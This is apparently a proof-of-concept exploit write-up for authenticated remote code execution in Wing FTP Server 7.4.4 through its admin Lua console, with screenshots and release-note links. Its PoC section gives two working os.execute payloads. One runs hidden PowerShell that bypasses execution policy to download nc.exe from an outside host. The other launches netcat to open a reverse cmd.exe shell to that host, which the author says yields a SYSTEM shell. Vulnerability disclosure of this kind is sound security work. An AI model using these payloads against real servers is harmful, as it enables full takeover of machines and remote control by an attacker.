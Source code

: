 # Wing FTP Server 7.4.4 - Remote Code Execution (Authenticated)
Wing FTP Server provides an administrative Lua scripting console accessible via its web interface. Authenticated administrators are able to execute arbitrary Lua code with insufficient sandboxing.

Affected Version: Wing FTP Server 7.4.4 (Windows) | Authentication Required: Yes

---

# Download & Release Notes
Until May 24, 2025, the latest version of the application provided by the vendor can be found at the following link: https://www.wftpserver.com/download.htm

Additionally, it can be noted that until the same date, there is a release note published informing that the RCE vulnerability has been fixed in version 7.4.4. The link to the release notes can be found here: https://www.wftpserver.com/serverhistory.htm
![image](https://github.com/user-attachments/assets/6c012118-50d8-4698-9378-8eef746c4708)

---

# PoC
![image](https://github.com/user-attachments/assets/f35ef4d9-fd4a-4a5f-ab50-d1b9bf5bb3b3)

Wing FTP Server Web Interface

![image](https://github.com/user-attachments/assets/36426432-9ba6-4f00-8599-2dd9dffc876b)

![image](https://github.com/user-attachments/assets/9b316062-448d-45f5-8988-c98bbf950ce0)

The first peace of the command will download the nc.exe (netcat for Windows x86) to the path "C:\Users\usuario\Desktop\Drops". The second part will execute nc.exe 192.168.234.131 4443 -e cme.exe.
```
os.execute('powershell -NoP -NonI -W Hidden -Exec Bypass -Command "(New-Object Net.WebClient).DownloadFile(\'http://192.168.234.131:8000/nc.exe\', \'C:\\\\Users\\\\usuario\\\\Desktop\\\\Drops\\\\nc.exe\')"')
```
```
os.execute('cmd /c powershell -NoP -W Hidden -Command "Start-Process \\"C:\\Users\\usuario\\Desktop\\Drops\\nc.exe\\" -ArgumentList \\"192.168.234.131\\",\\"4443\\",\\"-e\\",\\"cmd.exe\\""')
```
![image](https://github.com/user-attachments/assets/c6aaac7b-bdca-4d1a-baaf-cc4a14c56cc7)

NT/SYSTEM Shell
![image](https://github.com/user-attachments/assets/a8efd159-0153-4304-9438-7ae3b27ce258)
